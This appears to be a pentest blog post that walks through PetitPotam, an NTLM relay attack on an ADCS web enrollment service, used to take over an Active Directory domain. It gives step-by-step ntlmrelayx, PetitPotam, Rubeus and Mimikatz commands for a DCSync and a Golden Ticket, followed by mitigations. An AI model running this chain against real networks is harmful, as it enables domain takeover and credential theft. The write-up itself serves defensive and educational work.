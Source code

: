 ```yaml
---
layout: single
date: 2022-04-22
title: "Pwning Domain Admin with PetitPotam"
toc: true
draft: false
type: ["posts","post"]
categories:
  - Courses
tags:
  - ActiveDirectory
  - RedTeam
  - Pentest
  - PetitPotam
  - NTLM Relay
  - ADCS
---
```

**Disclaimer:**
Original research was done by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) in their [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper.

[PetitPotam](https://github.com/topotam/PetitPotam) PoC was written by [Lionel Gilles](https://twitter.com/topotam77).

I still need to conduct more research and experiment to fully understand this attack and the underlying technicalities.


## Introduction
In a recent network pentest, I found an ADCS CA (Active Directory Certificate Services Certificate Authortity) on the target domain. I haven't gotten a chance to play around with ADCS before, but I did remembered reading about one attack technique called [PetitPotam](https://github.com/topotam/PetitPotam) that abuses NTLM Relay via ADCS to take over the domain. After some time reading up about the technique and getting my hands dirty, I have successfully compromised DA! This blog post will be a quick rundown of how I got DA using this attack.

### Active Directory Certificate Services
On a high level, ADCS is a server role in Windows Active Directory that allows users to build a Public Key Infrastructure (PKI). This means that it can provide digital certificates and digital signature capabilities, improving confidentiality via encryption and integrity via digital signatures. The practical applications of ADCS are VPN (Virtual Private Network), IPSec (Internet Protocol Security), EFS (Encrypting File System), Smart Card logon, and more.

### PetitPotam
PetitPotam is an attack technique that abuses NTLM Relay via ADCS CA with Web Enrollment enabled by exploiting the MS-EFSRPC (Encrypting File System Remote Protocol). This technique allows an attacker in the internal network to force the Domain Controller (DC) machine account to authenticate towards a machine with NTLM relay configured (the attacker machine). This authentication will then be relayed to the CA Web Enrollment to request for a certificate as the DC. This certificate can be captured and be used to request for a TGT as the DC machine account. With this TGT, Mimikatz can be used to dump credentials of the DA or the krbtgt account to fully compromise the Active Directory environment.

## Action
From the foothold domain machine, I did some enumeration and was able to locate a CA in the domain. A native Windows tool called `certutil.exe` or [Certify](https://github.com/GhostPack/Certify) can be used for this purpose. Certify is a C# tool to enumerate and abuse misconfigurations in ADCS, this tool can also be used to look for vulnerable certificate templates. Misconfiguration in certificate templates can lead to privilege escaltion, unfortunately, no vulnerable template was identified.
{{< image src="/images/CA_.png" alt="CA" position="left" style="border-radius: 8px;" >}}
*Identified CA*

Now I've got the domain name for the CA Web Enrollment Interface at `https://ca-hostname/certsrv`, I was able to access this domain and request for a certificate to get a `certfnsh.asp`.
{{< image src="/images/CA_WebE.png" alt="CA Web Enrollment" position="left" style="border-radius: 8px;" >}}
*CA Web Enrollment Portal*
{{< image src="/images/certfnsh.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Generated certfnsh.asp*

With this, I was able to launch the ADCS Relay attack.

From the attacker box, launch `ntlmrelayx.py`:

``` bash
ntlmrelayx.py -debug -smb2support --target https://ca-hostname/certsrv/certfnsh.asp --adcs --template domaincontroller
```
The `--template` argument would depend on the account that would be relayed. Since I was relaying a DC, then the template should be `domaincontroller`, you could enumerate the template on the ADCS using Certify: `Certify.exe cas`

On another window on the attacker box, launch [PetitPotam](https://github.com/topotam/PetitPotam) against the DC:

``` bash
sudo python3 petitpotam.py <Attack box's IP> <DC's IP>
```

The attack was successful, on the ntlmrelayx window, a Base64 encoded certificate of the DC machine account was captured:
{{< image src="/images/b64cert.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Base64 certificate of DC$*


From here, I proceeded with requesting for a TGT of DC$ using `Rubeus`:

``` powershell
Rubeus.exe asktgt /user:DC$ /domain:<domain> /certificate:<base64-certificate> /ptt
```
With the `/ptt` option, the returned TGT of DC$ would be imported into my current user session.
\
From here, a threat actor can aim for the highest prize by dumping the AES256 encryption key of the krbtgt account to forge a Golden Ticket:
Launch Mimikatz and dump the AES256 encryption key:

``` powershell
# From mimikatz:
lsadump::dcsync /domain:<domain> /user:krbtgt
```
Once the AES256 encryption key of the krbtgt account has been captured, the Golden Ticket could be forged:

``` powershell
# From Mimikatz:
kerberos::golden /user:Administrator /domain:<domain> /sid:<SID of the domain> /aes256:<aes256 key> /ticket:goldie.kirbi
```
Proceed to inject the Golden Ticket:

``` powershell
Rubeus.exe ptt /ticket:goldie.kirbi
```
GG!

## Mitigation

The misconfiguration has been mitigated immediately by enabling Extended Protection for Authentication (EPA) for CA Web Enrollment and Certificate Enrollment Web Service.

Addition mitigations that are recommended by Microsoft are:
- Disable NTLM Authentication on Windows Domain Controllers.
- Disable NTLM on any ADCS server using Group Policy.
- Disable NTLM for Internet Information Services (IIS) on AD CS Servers in the domain running the "Certificate Authority Web Enrollment" or "Certificate Enrollment Web Service" services.
\

More information can be found [here](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&epi=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&irgwc=1&OCID=AID2200057_aff_7806_1243925&tduid=%28ir__pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00%29%287806%29%281243925%29%28a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA%29%28%29&irclickid=_pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00)
